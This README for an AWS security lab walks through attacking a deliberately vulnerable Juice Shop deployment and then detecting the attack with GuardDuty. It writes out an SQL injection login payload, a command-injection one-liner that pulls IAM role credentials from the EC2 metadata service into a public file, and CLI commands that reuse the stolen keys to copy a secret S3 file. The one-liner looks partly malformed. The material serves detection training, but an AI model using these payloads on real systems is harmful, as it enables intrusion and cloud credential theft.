# 🛡️ Threat Detection with Amazon GuardDuty

A hands-on AWS security lab: deploy an intentionally vulnerable web app (OWASP Juice Shop) with CloudFormation, attack it like a real adversary (SQL injection → command injection → credential theft → data exfiltration), then pivot to the defender's seat and see how **Amazon GuardDuty** detects the attack in near real-time.

> ⚠️ **Disclaimer**: This project deploys a deliberately insecure application for **educational purposes only**. Only deploy this in an isolated AWS account/sandbox you control, and tear it down after use.

---

## 📑 Table of Contents

1. [Project Overview](#-project-overview)
2. [Step 1 — Deploy a Web App](#step-1--deploy-a-web-app)
3. [Web App Infrastructure](#web-app-infrastructure)
4. [S3 Bucket for Storage](#s3-bucket-for-storage)
5. [GuardDuty for Security Monitoring](#guardduty-for-security-monitoring)
6. [Step 2 — Log Into Your Web App](#step-2--log-into-your-web-app)
7. [Step 3 — Exploit the Web App](#step-3--exploit-the-web-app)
8. [Step 4 — Access Stolen Credentials](#step-4--access-stolen-credentials)
9. [Step 5 — Steal Data with Stolen Credentials](#step-5--steal-data-with-stolen-credentials)
10. [Attack Recap](#-attack-recap)
11. [Step 6 — Detect the Attack with GuardDuty](#step-6--detect-the-attack-with-guardduty)
12. [Additional Step — S3 Malware Protection](#additional-step--use-s3-malware-protection)
13. [Cleanup](#-cleanup)

---

## 🔍 Project Overview

Deploy an insecure web app, and learn to analyze common threats using GuardDuty!



---

## Step 1 — Deploy a Web App

We start with creating a stack in CloudFormation.

- Upload this CloudFormation template!
  - [CloudFormation template](./cloudformation/template.yaml)



### The architecture of this project



### Web app infrastructure

1. Your web app is being hosted by a web server i.e. an **EC2 instance!** This means the EC2 instance is responsible for being the engine for running the web app's files, processing requests from incoming traffic, and sending responses. The template also stores the web app files in the EC2 instance itself.
2. There are also **networking** resources that are responsible for hosting this web app *somewhere* in the AWS environment. Usually, when you launch a new EC2 instance, the instance goes straight into a default VPC in your account. But, this template creates a **new VPC** and networking resources that this EC2 instance will live in. This follows best practice principles - by creating entirely networking resources, people deploying this template can keep the settings in their default VPC.
3. A **CloudFront distribution** is also deployed to speed up the delivery of your web app. Once web app is finished deploying, you'll notice that you can access your own web app from a public URL that anyone can visit. That is all thanks to **CloudFront** distributing your website!

### S3 Bucket for storage

This CloudFormation template also launches an **S3 bucket**.

This bucket stores a text file named **important-information.txt**, which is meant to simulate sensitive data. Your web server (EC2 instance) has access to the objects in this bucket.

Later in this project, we're going to act as the hacker that gets access to this file and read its contents i.e. perform a data breach 😈

###  GuardDuty for security monitoring

As you might imagine, there are quite a few moving parts in this web app! This means there are lots of opportunity for security vulnerabilities to exist, which means there are lots of ways hackers can get access into your infrastructure.

Because of this, GuardDuty is also in this template and is automatically **enabled** for monitoring and threat detection.

Later on, after we hack into this web app, we'll jump back into GuardDuty to see whether it's picked up on the incoming threats.

---

## Step 2 — Log Into Your Web App

In your CloudFormation console, stay in your stack's window.

Select the **Outputs** tab of your deployed stack.



Navigate to `JuiceShopURL`.



Try to login with email = `' or 1=1;--` and password `1`



Try **SQL INJECTION** and we successfully login with **administrator** user.



---

## Step 3 — Exploit the Web App

Conduct **command injection** using the following code:

```js
#{global.process.mainModule.require('child_process').exec('CREDURL=http://169.254.169.254/latest/meta-data/iam/security-credentials/;TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"` && CRED=(cat) | xargs -n1 curl -H "X-aws-ec2-metadata-token: $TOKEN") && echo $CRED | json_pp >frontend/dist/frontend/assets/public/credentials.json')}
```



---

## Step 4 — Access Stolen Credentials

Navigate to `d3ic7w7z0tpaai.cloudfront.net/assets/public/credentials.json`



This information helps you understand how much access you have and for how long, which is important for managing security and access control.

---

## Step 5 — Steal Data with Stolen Credentials

In this step, you're going to:

- Open AWS CloudShell.
- Configure AWS CLI with the stolen credentials.
- Copy the secret file from the S3 bucket.

### Set Environment Variables

Save an environment variable for the Juice Shop URL.



```bash
export JUICESHOPURL=https://d3ic7w7z0tpaai.cloudfront.net
export JUICESHOPS3BUCKET=demo-test-ti-moumni-guardduty-proj-thesecurebucket-dsodowjgyqwd
```



Download the leaked credentials file and inspect it:

```bash
wget $JUICESHOPURL/assets/public/credentials.json
cat credentials.json | jq
```



### Configure AWS CLI Profile

Configure an AWS CLI profile called **stolen** using the downloaded credentials:

```bash
aws configure set profile.stolen.region us-west-2
aws configure set profile.stolen.aws_access_key_id `cat credentials.json | jq -r '.AccessKeyId'`
aws configure set profile.stolen.aws_secret_access_key `cat credentials.json | jq -r '.SecretAccessKey'`
aws configure set profile.stolen.aws_session_token `cat credentials.json | jq -r '.Token'`
```



### Copy the Secret File

Using the stolen credentials, copy the `secret-information.txt` file from the S3 bucket:

```bash
aws s3 cp s3://$JUICESHOPS3BUCKET/secret-information.txt . --profile stolen
```

### View the Secret File

Check out the contents of your downloaded file:

```bash
cat secret-information.txt
```

You should see a line of text that reads **Dang it - if you can see this text, you're accessing our private information!**



---

## 🧩 Attack Recap

Let's recap what you've done as the hacker:

1. Visited the **Juice Shop** web app.
2. Used **SQL injection** to bypass logging into the web app's admin portal.
3. Used **command injection** to make the web server (i.e. the EC2 instance hosting the web app) create a new file. The new file contains the server's credentials to an AWS environment.
4. Visited the new file, which is in a **publicly accessible** part of the web app. This means anyone can visit the file's URL and see the exposed credentials too.
5. Ran commands to retrieve the exposed credentials from the web app and save a copy in your local **CloudShell** environment.
6. Set up a new **profile** in CloudShell using the exposed credentials you saved. This gave you, the hacker, access to your victim's AWS environment.
7. Used the new profile to **access an S3 bucket** in the victim's AWS environment.
8. Opened and **read the contents of a file** in the S3 bucket. The victim's private information is leaked!

---

## Step 6 — Detect the Attack with GuardDuty

In this step, you're going to:

- Find and analyze GuardDuty's findings.



**Credentials for the EC2 instance role `demo-test-TI-moumni-GuardDuty-project-TheRole-WNOhuVKQMz4X` were used from a remote AWS account.**

> **High** — First seen 11 minutes ago, last seen 11 minutes ago
>
> Credentials created exclusively for an EC2 instance using instance role `demo-test-TI-moumni-GuardDuty-project-TheRole-WNOhuVKQMz4X` have been used from a remote AWS account `370314719932`.



---

## Additional Step — Use S3 Malware Protection

### Enable Malware Protection

In the GuardDuty console, select **Malware Protection for S3** from the left hand navigation panel.



Download this file called an EICAR test file:

- Right click on the link below, and select **Save link as...**
- [EICAR-test-file.txt](https://www.eicar.org/download-anti-malware-testfile/)



Go back to GuardDuty — we detected the malicious file:

**A malware scan on your S3 object `EICAR-test-file.txt` has detected a security risk EICAR-Test-File (not a virus).**

> **High** — First seen 2 minutes ago, last seen 2 minutes ago
>
> A malware scan on your S3 object `arn:aws:s3:::demo-test-ti-moumni-guardduty-proj-thesecurebucket-dsodowjgyqwd/EICAR-test-file.txt` has detected a security risk EICAR-Test-File (not a virus).

| Field | Value |
|---|---|
| Finding ID | `1ecf9a1295a100512fe65fa4628e8a1f` |
| Type | `Object:S3/MaliciousFile` |
| Severity | HIGH |
| Region | us-east-1 |
| Count | 1 |
| Account ID | 897689476288 |
| Resource ID | demo-test-ti-moumni-guardduty-proj-thesecurebucket-dsodowjgyqwd |
| Created at | 07-05-2026 22:17:58 |
| Updated at | 07-05-2026 22:17:58 |



---

## 🧹 Cleanup

To avoid ongoing charges, delete the CloudFormation stack once you're done:

```bash
aws cloudformation delete-stack --stack-name demo-test-TI-moumni-GuardDuty-project
```

Also remember to disable GuardDuty Malware Protection for S3 and remove the EICAR test file if you no longer need them.

---

